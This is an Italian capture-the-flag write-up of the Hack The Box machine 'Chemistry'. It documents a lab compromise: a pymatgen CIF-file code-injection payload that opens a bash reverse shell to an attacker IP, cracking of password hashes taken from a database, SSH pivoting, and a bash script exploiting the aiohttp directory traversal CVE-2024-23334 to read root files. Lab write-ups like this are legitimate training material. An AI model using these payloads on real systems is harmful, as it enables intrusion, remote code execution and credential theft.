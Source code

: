 # Writeup: Chemistry

**Autore**: Luca Crippa  
**Data**: 2024-12-02

## Overview
- **Categoria**: Linux, Web
- **Difficoltà**: Intermedia
- **IP Target**: `10.10.11.38`
- **Servizi in Ascolto**:
  - **22/tcp**: SSH
  - **5000/tcp**: Web Application

## 1. Connessione al Servizio HTB
Dopo aver scaricato e configurato il file `.ovpn` per la VPN di Hack The Box, eseguiamo:
```bash
sudo openvpn --config lab_fazelucq.ovpn
```
Una volta connessi, identifichiamo l’indirizzo della macchina target, in questo caso `10.10.11.38`.

## 2. Scansione Nmap
Eseguiamo una scansione Nmap sull’host:
```bash
sudo nmap -sS 10.10.11.38
```
**Output**:
```
PORT     STATE SERVICE
22/tcp   open  ssh
5000/tcp open  upnp
```
Sono presenti le porte **22** (SSH) e **5000** (servizio web).

## 3. Analisi del Servizio Web (Porta 5000)
Visitiamo `http://10.10.11.38:5000`. L’applicazione permette di registrarsi o loggarsi, e successivamente di caricare file in formato **CIF** (Crystallographic Information File).
![image](https://github.com/user-attachments/assets/e21f468b-8d74-4cf9-b7da-8fa42cfdffa8)
![image](https://github.com/user-attachments/assets/bc8b4268-fb2d-4817-9d73-d20b4ff877e4)



### 3.1 Reverse Shell tramite CIF
Analizzando la documentazione di **pymatgen**, scopriamo una vulnerabilità (documentata anche su GitHub) che permette l’esecuzione di codice arbitrario se si inserisce una linea particolare nel file `.cif`.



#### 3.1.1 Esempio di File `.cif`
```cif
data_Example
_cell_length_a    10.00000
_cell_length_b    10.00000
_cell_length_c    10.00000
_cell_angle_alpha 90.00000
_cell_angle_beta  90.00000
_cell_angle_gamma 90.00000
_symmetry_space_group_name_H-M 'P 1'
loop_
 _atom_site_label
 _atom_site_fract_x
 _atom_site_fract_y
 _atom_site_fract_z
 _atom_site_occupancy
 H 0.00000 0.00000 0.00000 1
 O 0.50000 0.50000 0.50000 1
```
Al file `.cif` legittimo aggiungiamo una riga contenente il payload di reverse shell, sfruttando la vulnerabilità:
```cif
_space_group_magn.transform_BNS_Pp_abc 'a,b,[d for d in ().__class__.__mro__[1].__getattribute__(* [().__class__.__mro__[1]]+["__sub" + "classes__"])() if d.__name__ == "BuiltinImporter"][0].load_module("os").system("/bin/bash -c \'sh -i >& /dev/tcp/10.10.14.37/4444 0>&1\'");0,0,0'
_space_group_magn.number_BNS 62.448
_space_group_magn.name_BNS "P n' m a' "
```
> **Nota**: Sostituire `10.10.14.37` con il proprio IP VPN e **4444** con la porta preferita.

#### 3.1.2 Avvio del Listener
Apriamo un listener sulla porta 4444:
```bash
nc -lvnp 4444
```

#### 3.1.3 Upload & Esecuzione
Carichiamo il file `.cif` modificato sul sito. Dopodiché, clicchiamo su **VIEW** per forzare l’analisi del file. Questo attiverà la vulnerabilità, inviandoci una reverse shell:

```bash
connect to [10.10.14.37] from (UNKNOWN) [10.10.11.38] 54562
sh: 0: can't access tty; job control turned off
$ whoami
app
```
Ora disponiamo di una shell come utente `app`.

## 4. Lettura del Database e Raccolta Credenziali
All’interno della home di `app`, troviamo `database.db`. Leggiamolo con:
```bash
cat /home/app/instance/database.db
```
Nel contenuto, scorgiamo varie credenziali con hash. Esempio:
```
Mrosa:63ed86[REDACTED]c251a5
...
```

Confrontiamo l’hash su siti come [CrackStation](https://crackstation.net/) o usiamo `hashcat`. Otteniamo:
```
Mrosa: un[REDACTED]os
```

## 5. Accesso come Rosa
Utilizziamo la password di `rosa` per connetterci via SSH:
```bash
ssh rosa@10.10.11.38
rosa@10.10.11.38's password: 
```
Siamo ora loggati come `rosa`.  
**Flag User**:  
```bash
cat /home/rosa/user.txt
082[REDACTED]2a827
```

## 6. Privilege Escalation
Per ottenere i privilegi di root, analizziamo il sistema con **linpeas**. Notiamo un servizio in ascolto su `127.0.0.1:8080`.

![image](https://github.com/user-attachments/assets/d1a1804f-2887-4a1d-b871-254285605dfc)


### 6.1 Port Forwarding
Facciamo un tunnel locale:
```bash
sudo ssh -L 7000:127.0.0.1:8080 rosa@10.10.11.38 -fN
```
Ora `http://127.0.0.1:7000` ci mostra il servizio in esecuzione internamente su `8080`.

![image](https://github.com/user-attachments/assets/1ec8b47e-28a9-47f7-8ece-c27e13030e6d)


### 6.2 Directory Traversal Exploit (CVE-2024-23334)
Dai **header** notiamo `Python/3.9 aiohttp/3.9.1`, vulnerabile a un attacco di Directory Traversal. Eseguiamo uno script per tentare il traversal e leggere `root.txt`:

```bash
#!/bin/bash
url="http://127.0.0.1:7000"
string="../"
payload="/assets/"
file="root/root.txt" # senza lo slash iniziale

for ((i=0; i<15; i++)); do
    payload+="$string"
    echo "[+] Testing with $payload$file"
    status_code=$(curl --path-as-is -s -o /dev/null -w "%{http_code}" "$url$payload$file")
    echo -e "\tStatus code --> $status_code"
    
    if [[ $status_code -eq 200 ]]; then
        curl -s --path-as-is "$url$payload$file"
        break
    fi
done
```
Lo script incrementa i `../` finché non trova il file. Alla terza iterazione, otteniamo **200 OK** e il contenuto di `/root/root.txt`.

**Flag Root**:
```
85[REDACTED]57ab
```

## Lezioni Apprese 📚
1. **Vulnerabilità in Formati di File**: Il caricamento di file `.cif` malformati ha consentito l’esecuzione di codice arbitrario.  
2. **Analisi di Database Interni**: Spesso le credenziali si trovano in chiaro o sotto forma di hash recuperabili.  
3. **Port Forwarding e Servizi Locali**: L’uso di SSH tunnel ci ha permesso di accedere a servizi interni (localhost:8080).  
4. **Directory Traversal**: Alcuni framework web possono essere vulnerabili a percorsi come `/assets/../../root.txt`.

## Tools Utilizzati 🛠️
- **OpenVPN**: Connessione a HTB  
- **Nmap**: Scansione delle porte  
- **pymatgen**: Ricerca della vulnerabilità CIF  
- **Reverse Shell**: `nc -lvnp 4444`  
- **Linpeas**: Privilege Escalation Analysis  
- **SSH Tunnel**: Forwarding della porta 8080  
- **CURL**: Directory Traversal

---

*Writeup by Luca Crippa - Last Updated: 2024*
